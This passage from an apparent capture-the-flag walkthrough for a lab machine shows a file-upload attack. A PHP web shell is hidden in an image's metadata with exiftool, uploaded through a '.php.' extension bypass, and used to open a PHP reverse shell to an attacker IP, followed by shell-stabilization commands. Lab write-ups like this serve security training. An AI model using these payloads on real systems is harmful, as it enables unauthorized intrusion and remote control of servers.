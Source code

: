 Nice, the exploit works, let's go into the dashboard:

![](gitbook/cybersecurity/images/Pasted%20image%2020250611161045.png)

We got a dashboard and our profile, we can see a bunch of users that are subscribed to the mail listing on here, there are two of them unsubscribed, if we check our profile, we can see this:

![](gitbook/cybersecurity/images/Pasted%20image%2020250611161133.png)

As seen, we can upload images for our profile picture, the correct approach would be testing for a file upload vulnerability, let's try to embed a php web shell on an image:

```php
<?php if(isset($_REQUEST['cmd'])){ system($_REQUEST['cmd']); die; } ?>
```

Save that as `webshell.php` and do:

```php
exiftool -Comment='<?php if(isset($_REQUEST["cmd"])){ system($_REQUEST["cmd"]); die; } ?>' image.jpg
```

Now, we need to rename the file:

```
mv image.jpg webshell.php
```

If we try uploading the file with a `.php` extension it doesn't work, but, we can try `.php.`:

![](gitbook/cybersecurity/images/Pasted%20image%2020250611163855.png)

As seen, it works and give us the location of the webshell, if we try it:

![](gitbook/cybersecurity/images/Pasted%20image%2020250611163916.png)

We got RCE, nice, let's get a reverse shell:

```
http://environment.htb/storage/files/webshell.php?cmd=php+-r+%27%24sock%3dfsockopen%28%2210.10.15.10%22%2C1111%29%3bexec%28%22%2Fbin%2Fsh+-i+%3C%263+%3E%263+2%3E%263%22%29%3b%27
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250611164331.png)

We got our shell, let's begin privilege escalation.

## PRIVILEGE ESCALATION

***

First step is to stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```
